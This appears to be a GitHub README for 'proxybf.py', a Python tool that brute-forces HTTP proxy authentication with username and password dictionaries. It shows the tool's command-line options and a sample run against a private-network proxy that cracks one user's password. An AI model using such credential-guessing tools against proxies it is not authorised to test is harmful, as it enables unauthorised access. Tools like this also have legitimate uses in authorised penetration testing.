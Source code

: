 # Proxy-Brute-Force - Simple Proxy Auth Brute Forcer.



## Usage:

proxybf.py - It's a Simple Proxy Authentication Brute forcer. 

root@zakan:~ # python proxybf.py --help 

Usage: 
  proxybf.py [ -i Proxy IP ] [ -p Proxy port ] [ -c CODE ][ -U Usernames File ] [ -P Passwords File ]


Options:

  --version       show program's version number and exit

  -h, --help      show this help message and exit

  -i HOST         Ip/Hostname of the proxy to brute force.

  -p PORT         Port of the proxy (default: 3128).

  -c CODE         HTTP Code for Proxy Authentication Required (default: 407).

  -U UFILE        Usernames Dictionary.

  -P PFILE        Passwords Dictionary.


## Example:

root@zakan:~ # python proxybf.py -i 192.168.101.8 -p 3128 -U users.lst  -P password.lst


[*] Starting brute forcing.

[*] Checking for Proxy authentication.

[-] Proxy is protected by authentication, by returning 407 code !

[*] Brute forcing the Proxy.

[-] FAIL : Proxy = 192.168.101.8:3128, Status Code = 407, User = b.muncy, Passwd = 123456

[-] FAIL : Proxy = 192.168.101.8:3128, Status Code = 407, User = b.muncy, Passwd = 12345

[-] FAIL : Proxy = 192.168.101.8:3128, Status Code = 407, User = b.muncy, Passwd = password

[-] FAIL : Proxy = 192.168.101.8:3128, Status Code = 407, User = b.muncy, Passwd = password1

[-] FAIL : Proxy = 192.168.101.8:3128, Status Code = 407, User = b.muncy, Passwd = 123456789

[-] FAIL : Proxy = 192.168.101.8:3128, Status Code = 407, User = b.muncy, Passwd = 12345678

[-] FAIL : Proxy = 192.168.101.8:3128, Status Code = 407, User = b.muncy, Passwd = 1234567890

...

[+] SUCCESS : Proxy = 192.168.101.8:3128, Status Code = 403, User = b.muncy, Passwd = rabbit

[+] Username/Password pair is found : [ User = b.muncy, Passwd = rabbit ] 

[*] End.


## Remark:

Ensure that usernames and passwords haven't ":".

